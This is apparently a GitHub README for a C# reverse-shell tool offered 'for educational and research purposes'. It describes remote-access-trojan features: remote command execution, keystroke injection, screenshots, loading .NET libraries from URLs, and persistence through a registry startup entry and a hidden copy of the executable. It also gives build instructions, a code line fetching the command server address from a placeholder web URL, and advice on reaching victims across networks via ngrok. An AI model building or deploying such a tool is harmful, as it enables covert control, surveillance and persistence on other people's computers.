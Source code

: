 # README.MD
### Project Description
This project is a demonstration of a reverse shell written in C#. It is a powerful tool for remote system management, intended for educational and research purposes.

#### Key Code Features
1. Network Connection: The code uses the TcpClient class to establish a network connection with a remote server. The server's IP address and port are retrieved from a remote web server.

2. Cryptography: To ensure communication security, the code utilizes the SHA256 hashing algorithm and XOR encryption, along with RSA encryption for end-to-end encryption. The keys are regenerated for each iteration to enhance security.

3. Command Handling: The code can read commands from a process's standard output stream and send them to the server. It can also read commands from the server and execute them on the local machine.

4. Additional Functionality: The code includes additional features such as sending keyboard keystrokes, displaying message boxes, executing commands asynchronously, capturing remote screenshots, and loading .NET libraries from URLs.

5. Persistence: The code attempts to make the reverse shell persistent by adding an entry to the Windows registry to execute the program during the user's session startup. It also copies the executable file into a hidden directory.

#### Usage
To download .NET 7.0 as a portable version, see here: Download .NET 7.0 SDK

Direct link: dotnet-sdk-7.0.306-win-x64.zip

#### Compile the Client:
To get started, change the URL at line 158 of client\Program.cs:

```csharp
string ip_port = new WebClient().DownloadString("https://outofhere.example.repl.co/");  // replace by YOUR WebServer url
```
Then, compile the client using dotnet.exe:

```cmd / powershell
dotnet.exe publish client.csproj
```
The single-file binary can be found at:
```path
client\bin\Debug\net7.0-windows\win-x64\publish
```
Next, publish the server:

```cmd / powershell
dotnet.exe publish server.csproj
```
The single-file binary can be found at:

```path
server\bin\Debug\net7.0-windows\win-x64\publish
```
To connect to the server from a network other than the client's, it is recommended to use the ngrok tunneling service and add the IP address and port to a web server with a fixed domain (e.g., on a Repl.it HTML, CSS, JS on https://replit.com).

// The IP address and port must be separated by a colon only.

Example:

```IP:Port
1.2.3.4:8080
```
### Demonstration
#### For information, the videos were recorded on the same machine with real-time threat protection enabled [without sending samples], but it is indeed CLIENT.EXE that performs the actions.

##### - reverse shell
If You Don't see : <a target="_blank" href="https://github.com/Olivier-true/revserse-shell/blob/main/reverse_shell.gif?raw=true">reverse_shell.gif</a>
<img src="https://github.com/Olivier-true/revserse-shell/blob/main/reverse_shell.gif?raw=true">

##### - MessageBox and SendKeys
If You Don't see : https://raw.githubusercontent.com/Olivier-true/revserse-shell/main/send_keys_and_msgb.gif
<img src="https://raw.githubusercontent.com/Olivier-true/revserse-shell/main/send_keys_and_msgb.gif">
<br> example of command
msgb>/Your Message
SKS>/Your Keys

##### - remote-desktop
#### check for in this repositery remote-desktop.gif
<br> For remote-desktop start server-remote-video.exe in remote-video\server-remote-video\server\bin\Debug
<img src="https://github.com/Olivier-true/revserse-shell/blob/main/remote-desktop.gif?raw=true">
and execute the command on server.exe :
remote-desktop>/<Your IP Address>:8081

#### Disclaimer
This project is published for educational and research purposes. The author is not responsible for any misuse of this tool.


<p align="center"><img src="https://ipipip-gh.0xsql.repl.co/reverse-shell/views.png" alt="Visitors"></a></p>

##### Donate ☕
<a target="_blank" style="color: blue; text-decoration: none;" href="https://paypal.me/L3glight"><img src="https://cdn3.emoji.gg/emojis/1716_PAYPAL.png" width="16" height="16">&nbsp;&nbsp;Paypal</a>
